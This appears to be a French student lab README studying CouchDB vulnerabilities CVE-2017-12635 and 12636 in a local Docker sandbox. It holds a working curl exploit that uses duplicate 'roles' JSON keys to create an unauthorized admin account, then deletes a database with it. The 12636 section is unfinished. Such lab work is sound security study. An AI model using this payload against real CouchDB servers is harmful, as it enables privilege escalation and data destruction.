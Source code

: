 # Etude_Faille_CVE_12635 & 12636
Travail r
## Etape 0 : Mise en place de l'environnement de travail
### A partir d'une Docker File 

### Téléchargement du depot GITHUB sur votre machine virtuelle
   https://github.com/Guillaumeclavel/Etude_Faille_CVE_12636  

==> Dépot Public : pas de droit accès à gérer 

## Extraction et positionnement dans le répertoire de travail 

 
## ETAPE 1 : Création du docker contenenat le serveur "couchdb"
### Lancement du docker-compose ou 
`docker container run -d --name couchdb-sandbox -p 5984:5984 couchdb:1.6.1`

### Vérification de la création du serveur:
`curl -X GET http://localhost:5984`

## ETAPE 2 : Mise en en évidence de la faille 12635
### Vérification des base de données créée:
`curl -X GET http://localhost:5984/_all_dbs`

### Création d'une nouvelle base:
`curl -X PUT http://localhost:5984/records`

### Création du compte admin: 
`curl -X PUT http://localhost:5984/_config/admins/admin -d '"admin"'`  

log : admin, mdp : admin

### Creation d'une base:
`curl -X PUT http://localhost:5984/new_records`  
Pas bon car par le bon compte utilisateur.  

`curl -X PUT http://admin:admin@localhost:5984/new_records`
Fonctionnelle car utilisation du compte admin.

### Création d'un doc nouvel utilisateur admin avec la faille:
`curl -X PUT http://localhost:5984/_users/org.couchdb.user:guest \
    -H "Accept: application/json" \
    -H "Content-Type: application/json" \
    -d '{"name": "guest", "password": "guest", "roles": ["_admin"], "roles": [], "type": "user"}'`  

### Suppression du répertoire créer précédement:
`curl -X DELETE http://localhost:5984/new_records`
Ne fonctionne pas car pas de droit.

`curl -X DELETE http://guest:guest@localhost:5984/new_records`  
Fonctionne car utilisation d'un compte admin créé précédement (Escalade de privilege)
## ETAPE 3 : Exploitation de la faille 12636
suppression (Je n'y arrive pas)
docker images pour voir les dockers
docker stop 4138cbdb4df8 pour stopper le docker concerné
docker container rm 4138cbdb4df8 pour supprimer
